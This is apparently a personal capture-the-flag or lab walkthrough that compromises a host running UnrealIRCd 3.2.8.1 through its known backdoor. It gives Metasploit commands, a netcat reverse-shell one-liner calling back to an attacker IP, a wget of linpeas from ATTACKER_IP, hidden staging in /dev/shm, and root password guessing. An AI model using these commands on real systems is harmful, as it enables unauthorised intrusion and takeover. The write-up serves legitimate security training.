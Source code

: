 I find that there is only 3 open ports and all of them are UnrealRCd.

https://computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson7/index.html

What UnrealRCd?

- UnrealIRCd is an open source IRC daemon, originally based on DreamForge, and is available for Unix-like operating systems and Windows. Since the beginning of development on UnrealIRCd circa May 1999, many new features have been added and modified, including advanced security features and bug fixes, and it has become a popular server.

exploit/unix/irc/unreal_ircd_3281_backdoor

- This module exploits a malicious backdoor that was added to the Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.

Open msfconsole

```php
msfconsole
```

Search for the service

```php
search unreal
```

exploit/unix/irc/unreal_ircd_3281_backdoor
UnrealIRCD 3.2.8.1 Backdoor Command Execution

Use exploit

```php
use 5
```

Show options

```php
options
```

Set Options
- RPORT - TARGET Port
- RHOST - TARGET IP

Set Payload

```php
show payloads
```

```php
set payload cmd/unix/bind_perl
```
- Unsure of which payload is best to use here

```php
run
```

Start a revers shell

```php
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.158 38888 >/tmp/f
```

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- **Instructions**:
    1. exploit -z
    2. sessions -l
        - list sessions
    3. sessions -i 1
        - interact with sessions

```php
cat /home/server/local.txt
```

e2863ee56da7100df9734dbc788c3c01

![[Pasted image 20240918042632.png]]

```php
cd /dev/shm
```

```php
mkdir .z0d
```

```php
cd.z0d
```

upload linpas

```php
wget <ATTACKER_IP>/linpeas.sh
```

Highly probable:
`[CVE-2019-13272]` PTRACE_TRACEME

Linux version 4.19.0-10-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.132-1 (2020-07-24)

![[Pasted image 20240918044253.png]]

@reboot /home/server/irc/Unreal3.2/unreal start

 https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens                                           
ptrace protection is disabled (0), so sudo tokens could be abused

Interesting writable files owned by me or writable by everyone
/home/server

Writable: /home/server/irc/Unreal3.2/config.log 
Writable: /home/server/irc/Unreal3.2/ircd.log

Password attack on the roor user:
- password
- Password123
- root

![[Pasted image 20240918051743.png]]

user: root
pass: root

36f7456d090c6aff72ad23a7dc9b465e

---

What i learned:
- Always check for weak passwords against users, including root.


